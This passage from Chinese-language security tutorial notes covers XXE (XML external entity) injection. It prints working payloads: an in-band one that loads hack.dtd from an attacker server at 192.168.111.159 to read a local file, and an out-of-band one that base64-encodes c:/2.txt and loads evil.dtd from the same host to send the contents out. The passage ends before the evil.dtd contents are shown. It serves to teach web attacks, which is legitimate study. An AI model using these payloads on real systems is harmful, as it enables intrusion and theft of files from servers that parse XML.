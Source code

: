 - 有回显 - 恶意引用外部参数实体
    
    `192.168.111.159`为恶意服务器
    
    ```c
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE XXE-test [
        		<!ENTITY % file SYSTEM "http://192.168.111.159/hack.dtd">
    				%file;
    ]>
    <user>
    	<username>&hhh;</username>
    	<password>admin</password>
    </user>
    ```
    
    ```c
    # hack.dtd
    <!ENTITY hhh SYSTEM 'file:///c:/2.txt'>
    ```
    
    ![image.png](image%2020.png)
    

### XXE 文件读取 - 无回显

- 无回显 - OOB
    
    当我们探测到对方主机存在`XXE`漏洞，但是无回显又想去读取文件时，我们可以通过将内容以`http`请求发送到恶意主机,然后恶意主机接收
    
    ```c
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE XXE-test [
        		<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/2.txt">
        		<!ENTITY % dtd SYSTEM "http://192.168.111.159/evil.dtd">
    				%dtd;
    				%send;
    ]>
    <user>
    	<username>admin</username>
    	<password>admin</password>
    </user>
    ```
    